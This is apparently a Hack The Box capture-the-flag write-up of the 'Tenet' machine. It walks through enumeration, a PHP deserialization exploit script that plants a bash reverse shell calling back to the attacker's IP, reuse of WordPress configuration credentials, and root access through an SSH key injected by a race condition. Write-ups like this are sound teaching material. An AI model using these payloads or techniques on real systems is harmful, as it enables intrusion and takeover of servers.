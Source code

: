 ```yaml
---
title: Tenet Writeup
author: mooncakeza
date: 2021-06-14 14:30pm
categories: [hackthebox]
tags: [hackthebox, writeup, tenet]
math: true
image: /assets/img/htb/Tenet/00 - tenet infocard.png
---
```


# Reconnaissance

Let us start with a basic enumeration with nmap.

```bash
sudo nmap -sC -sV
```
![Tenet](/assets/img/htb/Tenet/01 nmap scan.png){:.align-center}

We go to http://10.10.10.223 and we get a default Apache page.

![Tenet](/assets/img/htb/Tenet/02 apache default page.png){:.align-center}

We then run feroxbuster web enumeration

```
feroxbuster --url http://10.10.10.223 
```

We find the following

![Tenet](/assets/img/htb/Tenet/03 feroxbuster results.png){:.align-center}

We go to http://10.10.10.223/wordpress and find it is running wordpress.
<br>
We browse around and If we hover over <b>'Tenet'</b> at the bottom we see a hostname <b>'tenet.htb'</b>

![Tenet](/assets/img/htb/Tenet/04 wordpress hostname.png){:.align-center}

We add <b>tenet.htb</b> to our hosts file and then browse to http://tenet.htb
<br>
Now everything on the site loads properly.

![Tenet](/assets/img/htb/Tenet/05 wordpress site.png){:.align-center}

After browsing around we find the following comment left by a user.

![Tenet](/assets/img/htb/Tenet/06 neil comment.png){:.align-center}

Seems like someone might have left a file called <b>sator.php</b> and maybe a backup of it?

Let's go check.
I just add <b>sator.php</b> and <b>sator.php.bak</b> into a file called words.txt and ran feroxbuster with it.

```
feroxbuster --url http://10.10.10.223 -w words.txt
```

![Tenet](/assets/img/htb/Tenet/07 - sator.png){:.align-center}

<b>Code 200</b> confirms we have an OK success status code.

Browsing to http://10.10.10.223/sator.php we get

![Tenet](/assets/img/htb/Tenet/08 - sator.php.png){:.align-center}

We then also download the <b>http://10.10.10.223/sator.php.bak</b>  and find the following code.

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

# Foothold

I struggle with these types of challenges but 
essentially looking at the code it seems we can create our own php file and insert data to get RCE.
<br>
We just have to create our own php file with code to do this request.
<br>
We can see it could be some sort of <b>PHP Deserialization RCE</b>
<br>
Looking at the following articles we can get an idea of what needs to be done.
<br>
[https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php](https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php)
<br>
[https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)
<br>
We create our own PHP file with the following to add our reverse shell code into a file called moo.php and then call it to create a reverse shell.

```php
<?php

class DatabaseExport
{
	public $user_file = 'moo.php';
	public $data = '<?php exec("bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.104/9998 0>&1\'"); ?>';

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo 'EXPLOITED';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/moo.php");
?>
```


We start a netcat listener on port 9998
<br>
We run the php file.

![Tenet](/assets/img/htb/Tenet/09 - run php.png){:.align-center}

We get a reverse shell on our netcat.

![Tenet](/assets/img/htb/Tenet/10 - reverse shell.png){:.align-center}

# User

Seeing that this is a wordpress site the first place I usually go and check for credentials is the <b>wp-config.conf</b>>. 
<br>
Jackpot.
<br>
![Tenet](/assets/img/htb/Tenet/11 - wordpress details.png){:.align-center}
<br>
I use those details to ssh into the machine and we have user on the box.
<br>

![Tenet](/assets/img/htb/Tenet/12 - neil user.png){:.align-center}
<br>
We check and there is the user flag.
<br>
![Tenet](/assets/img/htb/Tenet/13 - user flag.png){:.align-center}

# Privilege Escalation

Now for privsec
<br>
Let us check the sudoers file.
<br>
Seems we have access to a run a script as sudo.
<br>

![Tenet](/assets/img/htb/Tenet/14 - sudo.png){:.align-center}

We look at the script and find this part that is interesting.
<br>
We can inject our own ssh key!
<br>

![Tenet](/assets/img/htb/Tenet/15 - addKey.png){:.align-center}

We create our own key with <b>ssh-keygen</b>

![Tenet](/assets/img/htb/Tenet/16 - keygen.png){:.align-center}

We create a <b>while true</b> script called <b>sshkey.sh</b> to put our key in and inject it into a /tmp/ssh-* file which then injects it into the authorized_keys file for the root user.
<br>
Create a file sshkey.sh and put your public key in there. 
<br>
I had named mine moonkey.pub.
<br>
![Tenet](/assets/img/htb/Tenet/17 - for script.png){:.align-center}
<br>
Open up another terminal and ssh to the machine as neil.
<br>
Now run the script on the remote machine

```bash
chmod +x sshkey.sh
./sshkey.sh
```

Then in the other terminal run
<br>
![Tenet](/assets/img/htb/Tenet/18 - script run.png){:.align-center}
<br>
SSH Key has been added to root's authorized_keys file!
<br>
Now we try ssh with our key we generated to root.

```bash
ssh -i moonkey root@10.10.10.223
```

![Tenet](/assets/img/htb/Tenet/19 - root logged in.png){:.align-center}
<br>
We have root!
Let's grab the root flag.
<br>
![Tenet](/assets/img/htb/Tenet/20 - root flag.png){:.align-center}
